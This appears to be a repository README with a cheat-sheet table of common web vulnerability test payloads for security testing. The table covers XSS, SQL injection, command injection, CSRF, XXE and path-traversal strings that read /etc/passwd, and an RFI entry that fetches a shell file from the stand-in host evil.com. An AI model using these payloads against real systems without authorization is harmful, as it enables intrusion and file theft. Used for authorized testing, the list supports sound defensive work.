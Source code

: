 # 💡 Common Payloads

| Vulnerability Type     | Payload                                | Placement               | Purpose                                                   |
|------------------------|----------------------------------------|-------------------------|-----------------------------------------------------------|
| **XSS**                | `<script>alert('XSS')</script>`         | Search Field/Form       | Tests if JavaScript is executed.                          |
| **XSS (DOM-Based)**    | `#<script>alert('XSS')</script>`        | URL Fragment            | Tests for DOM-based XSS vulnerabilities.                  |
| **SQL Injection**      | `' OR '1'='1' --`                      | URL/Login Field         | Tests for unprotected SQL queries.                       |
| **SQL Injection (Blind)** | `1' AND 1=1 --`                    | URL/Login Field         | Tests for blind SQL injection.                            |
| **Command Injection**  | `; ls -la`                             | URL/Input Field         | Tests if system commands are executed.                    |
| **Command Injection (Windows)** | `& dir`                      | URL/Input Field         | Tests for command injection in Windows environments.      |
| **CSRF**               | `<img src="http://example.com/change?param=value">` | HTML                   | Tests if an unauthenticated change can be triggered.      |
| **CSRF (Form POST)**   | `<form action="http://example.com/change" method="POST"><input type="hidden" name="param" value="value"></form>` | HTML | Tests if CSRF protection is implemented on form submissions. |
| **XXE**                | `<!DOCTYPE foo [<!ENTITY xxe SYSTEM "file:///etc/passwd">]><foo>&xxe;</foo>` | XML Input              | Tests for XML External Entity vulnerabilities.            |
| **LFI**                | `../../../../etc/passwd`               | URL/Input Field         | Tests for Local File Inclusion.                           |
| **RFI**                | `http://evil.com/shell.txt`            | URL/Input Field         | Tests for Remote File Inclusion.                          |
| **Open Redirect**      | `http://example.com/?url=http://evil.com` | URL Parameter       | Tests if redirection to arbitrary URLs is possible.       |
